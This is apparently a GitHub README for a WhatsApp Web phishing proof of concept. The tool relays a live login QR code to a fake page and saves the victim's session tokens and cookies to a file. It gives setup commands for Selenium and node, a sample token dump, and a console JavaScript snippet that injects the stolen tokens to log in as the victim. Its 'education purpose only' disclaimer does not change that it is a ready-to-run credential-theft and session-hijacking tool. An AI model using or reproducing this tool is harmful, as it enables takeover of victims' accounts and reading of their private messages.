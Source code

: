 #Whatsapp phishing

This repo contains proof of principle code for running a phishing attack against the official [Whatsapp Web client](https://web.whatsapp.com).
I also wrote about it on my [German blog](http://blog.mawalabs.de/whatsapp-phishing/)

##Whatsapp what?

http://www.whatsapp.com/faq/web/28080003

Short: A web client for Whatsapp. You log in by scanning a QR code on there page using Whatsapp

##What does it do

It will extract the QR code from [Whatsapp Web](https://web.whatsapp.com) and display it on a new page.
If someone scans the code using Whatsapp it will grab the credentials from the web client and save them in a file.
You can use these credentials to log yourself in as the person who scanned to QR code.

##How does it work

The program uses node.js and socket.io for the website and selenium, a tool for scripting browsers, to communicate with the Whatsapp web client.

The program starts a http and a socket.io server. If a new client connects to socket.io the application will make a request to a selenium instance to start a new browser and connect to web.whatsapp.com. It will fetch the QR code data and send it to the client via the websocket connection. The client javascript then shows the QR code to the user.

If the QR code gets scanned Whatsapp will authenticate the selenium controlled browser and store some tokens in the localStorage and document.cookie. We extract that data and save it into a text file. It will look like so:

```
{
   "s":{
      "remember-me":"true",
      "WAVersion":"\"0.1.4391\"",
      "qwefsdafadsdf==":"false",
      "debugCursor":"146",
      "WAWamDimensionCache":"{\"AppVersion\":\"0.1.4391\",\"BrowserVersion\":\"Firefox 39.0\",\"DeviceName\":\"Linux x86_64\",\"WebcEnv\":0}",
      "WAToken2":"\"0.asldkamäsdflkasdfasdf\"",
      "WAWamLastRotate":"1439140177924",
      "WALangPref":"\"de-DE\"",
      "WAWamStatus":"\"completed\"",
      "y8fY/zQ8P+asdfadfg==":"[
        ...
      ]",
      "WAToken1":"\"asdf+ams,dfhlaskdjfhasdfasdf=\"",
      "Dexie.DatabaseNames":"[\"wawc\"]",
      "storage_test":"storage_test",
      "LKAJsdlksdjfasdf==":"false",
      "logout-token":"\"alkjsdhfkjashldkjpweoaLKNKASBkasjbdaksdjLKjhhndosiaosa;AljkhJKhlKAJShkljqjDJSAOlkjbnhasdklWAdm==\"",
      "ver":"1",
      "whatsapp-mutex":"\"x781239870495:init0.987123490234\"",
      "WASecretBundle":"{\"key\":\"sldkfjsdf+asdlfijlasdkjfasdf=\",\"encKey\":\"asldkfjasldkfjsdfsdf0=\",\"macKey\":\"a,sdfasdf+alskdjföalskdhiopasdf=\"}",
      "WABrowserId":"\"aö,ksdjflöasdf==\""
   },
   "c":""
}
```

You can than import these tokens into your browser and log in as the person who scanned the QR code.

##Instructions

   * Download the [selenium standalone server](http://www.seleniumhq.org/download/) jar file and install Firefox if you don't already have it.
   * Type the following into your terminal
   
    ```
    $ java -jar selenium-server.jar
    $ # new terminal
    $ git clone https://github.com/Mawalu/whatsapp-phishing.git
    $ cd whatsapp-phishing
    $ npm install
    $ node index.js
    ```
   * Open your browser and go to [http://localhost:8080](http://localhost:8080)
   * Start Whatsapp on your smartphone, go to Menu > Whatsapp Web and scan the QR code from your browser.
   * Copy the content from the newly created secrets file
   * Open web.whatsapp.com. (Watch out that you are not already logged in, maybe use incognito mode)
   * Open your developer console
   * Enter the following code:
   
   ```
   > var t = CONTENT_OF_YOUR_SECRETS_FILE
   > function login(token) {Object.keys(token.s).forEach(function (key) {localStorage.setItem(key, token.s[key])}); token.c = token.c.split(';'); token.c.forEach(function(cookie) {document.cookie = cookie; });}
   > login(t)
   ```
   * Reload the page
   * You should be logged in as the person who scanned the QR code

##Disclaimer

Whatsapp messages are meant to be private. Just because the NSA reads everything it doesn't mean you should do as well! Everything in this repo is for education purpose only and I am not responsible if you use it otherwise.
